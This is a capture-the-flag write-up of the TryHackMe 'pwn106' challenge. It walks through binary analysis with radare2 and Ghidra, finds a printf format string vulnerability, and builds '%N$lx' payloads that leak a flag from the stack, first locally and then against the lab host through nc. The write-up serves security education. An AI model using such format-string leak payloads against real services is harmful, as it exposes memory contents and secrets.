



# pwn106

- [Binary Analysis](#binary-analysis)
- [Crafting the Payload](#crafting-the-payload)
- [Local Exploitation](#local-exploitation)
- [Remote Exploitation](#remote-exploitation)

```text

The challenge is running on port 9006

```

## Binary Analysis

#### Binary Information
```bash
$ ls
pwn106

$ file pwn106 
pwn106: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60a1dfa10c02bcc6d113cb752053893ac9e2f4f1, for GNU/Linux 3.2.0, not stripped

$ checksec --file=pwn106
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

```

The *radare2* tool is used to further analyze the track.

```text
[0x00001090]> afl
0x00001030    1      6 sym.imp.puts
0x00001040    1      6 sym.imp.__stack_chk_fail
0x00001050    1      6 sym.imp.printf
0x00001060    1      6 sym.imp.read
0x00001070    1      6 sym.imp.setvbuf
0x00001080    1      6 sym.imp.__cxa_finalize
0x00001090    1     42 entry0
0x000010c0    4     34 sym.deregister_tm_clones
0x000010f0    4     51 sym.register_tm_clones
0x00001130    5     54 entry.fini0
0x00001170    1      9 entry.init0
0x00001000    3     23 sym._init
0x00001380    1      1 sym.__libc_csu_fini
0x00001384    1      9 sym._fini
0x00001201    3     61 sym.banner
0x00001320    4     93 sym.__libc_csu_init
0x0000123e    3    217 main
0x00001179    3    136 sym.setup

```

Among the symbols, the *main* function is identified.

We proceed with the inspection of the decompiled code of the *main* function with *ghidra*.

```c
void main(void)

{
  long in_FS_OFFSET;
  char format [56];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts(&DAT_00102119);
  printf("Enter your THM username to participate in the giveaway: ");
  read(0,format,50);
  printf("\nThanks ");
  printf(format);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

There is a **Format String Vulnerability** in the `printf(format)` that uses the data sent by the user, and these can also be composed of *format string scpecifiers*.

We continue the analysis of the disassembled with *radare2*.

```text
[0x00001090]> s main 
[0x0000123e]> pdfr
  ; ICOD XREF from entry0 @ 0x10ad(r)
┌ 217: int main (int argc, char **argv, char **envp);
│ afv: vars(7:sp[0x10..0x68])
│ 0x0000123e      55             push rbp
│ 0x0000123f      4889e5         mov rbp, rsp
│ 0x00001242      4883ec60       sub rsp, 0x60
│ 0x00001246      64488b0425..   mov rax, qword fs:[0x28]
│ 0x0000124f      488945f8       mov qword [canary], rax
│ 0x00001253      31c0           xor eax, eax
│ 0x00001255      b800000000     mov eax, 0
│ 0x0000125a      e81affffff     call sym.setup
│ 0x0000125f      b800000000     mov eax, 0
│ 0x00001264      e898ffffff     call sym.banner
│ 0x00001269      48b854484d..   movabs rax, 0x5b5858587b4d4854        ; 'THM{XXX['
│ 0x00001273      48ba666c61..   movabs rdx, 0x6465725f67616c66        ; 'flag_red'
│ 0x0000127d      488945a0       mov qword [var_60h], rax
│ 0x00001281      488955a8       mov qword [var_58h], rdx
│ 0x00001285      48b8616374..   movabs rax, 0x58585d6465746361        ; 'acted]XX'
│ 0x0000128f      488945b0       mov qword [var_50h], rax
│ 0x00001293      66c745b8587d   mov word [var_48h], 0x7d58            ; 'X}'
│ 0x00001299      c645ba00       mov byte [var_46h], 0
│ 0x0000129d      488d05750e..   lea rax, str._THM_Giveaway__n         ; 0x2119
│ 0x000012a4      4889c7         mov rdi, rax                          ; const char *s
│ 0x000012a7      e884fdffff     call sym.imp.puts                     ; int puts(const char *s)
│ 0x000012ac      488d05850e..   lea rax, "Enter your THM username to participate in the giveaway: "
│ 0x000012b3      4889c7         mov rdi, rax                          ; const char *format
│ 0x000012b6      b800000000     mov eax, 0
│ 0x000012bb      e890fdffff     call sym.imp.printf                   ; int printf(const char *format)
│ 0x000012c0      488d45c0       lea rax, [format]
│ 0x000012c4      ba32000000     mov edx, 0x32                         ; '2' ; size_t nbyte
│ 0x000012c9      4889c6         mov rsi, rax                          ; void *buf
│ 0x000012cc      bf00000000     mov edi, 0                            ; int fildes
│ 0x000012d1      b800000000     mov eax, 0
│ 0x000012d6      e885fdffff     call sym.imp.read                     ; ssize_t read(int fildes, void *buf, size_t nbyte)
│ 0x000012db      488d058f0e..   lea rax, "\nThanks "
│ 0x000012e2      4889c7         mov rdi, rax                          ; const char *format
│ 0x000012e5      b800000000     mov eax, 0
│ 0x000012ea      e861fdffff     call sym.imp.printf                   ; int printf(const char *format)
│ 0x000012ef      488d45c0       lea rax, [format]
│ 0x000012f3      4889c7         mov rdi, rax                          ; const char *format
│ 0x000012f6      b800000000     mov eax, 0
│ 0x000012fb      e850fdffff     call sym.imp.printf                   ; int printf(const char *format)
│ 0x00001300      90             nop
│ 0x00001301      488b45f8       mov rax, qword [canary]
│ 0x00001305      64482b0425..   sub rax, qword fs:[0x28]
│ 0x0000130e      7405           je 0x1315
| // true: 0x00001315  false: 0x00001310
│ 0x00001310      e82bfdffff     call sym.imp.__stack_chk_fail         ; void __stack_chk_fail(void)

│ ; CODE XREF from main @ 0x130e(x)
│ 0x00001315      c9             leave
└ 0x00001316      c3             ret

[0x0000123e]> afv
var int64_t canary @ rbp-0x8
var char * format @ rbp-0x40
var int64_t var_46h @ rbp-0x46
var int64_t var_48h @ rbp-0x48
var int64_t var_50h @ rbp-0x50
var int64_t var_58h @ rbp-0x58
var int64_t var_60h @ rbp-0x60

```

On the stack, **26 bytes** are allocated that correspond to the *flag* to be captured.

The goal is to exploit the **Format String Vulnerability** for the **memory leak** and make us restore the *flag* that is stored on the stack starting from `var_60h @ rbp-0x60`.

## Crafting the Payload

Note that due to the *x86-64 convention of passing parameters to a function call* the first 6 parameters are passed via registers, and the following ones on the stack.

Also note that the *flag* starts at the top of the stack:

```text
┌ 217: int main (int argc, char **argv, char **envp);
│ afv: vars(7:sp[0x10..0x68])
│ 0x0000123e      55             push rbp
│ 0x0000123f      4889e5         mov rbp, rsp
│ 0x00001242      4883ec60       sub rsp, 0x60
...

flag:                            var_60h @ rbp-0x60

```

So, the idea would be to go beyond the 6 registers and read from the top of the stack the **26 bytes** of the flag.

So, the *payload* will be of the following form:

- `%lx`: 8 bytes
- `%lx`: 8 bytes
- `%lx`: 8 bytes
- `%hx`: 2 bytes

And using the indices we get:

- `%6$lx`
- `%7$lx`
- `%8$lx`
- `%9$hx`

## Local Exploitation

The *payload* is defined:

```bash
$ echo '%6$lx.%7$lx.%8$lx.%9$hx' > payload
```

The exploit is run locally.

```bash
$ ./pwn106 < payload 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: 
Thanks 5b5858587b4d4854.6465725f67616c66.58585d6465746361.7d58
���
```

The *CyberChef* tool is used to decode the value returned by the program, taking into account the *endianess* (view [Binary Information](#binary-information)).

[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)



Works!

## Remote Exploitation

Trying to run the exploit remotely.



But it doesn't return the entire *flag*, so we proceed iteratively.

```bash
$ python3 -c 'print("".join(f"%{i}$lx." for i in range(6,12)))' > remote

$ cat remote 
%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx.

$ nc 10.10.238.208 9006 < remote 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: 
Thanks 5f5530797b4d4854.5f3368745f6e3077.5961774133766947.3168745f446e615f.756f595f73315f73.7d47346c665f52.

```



GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
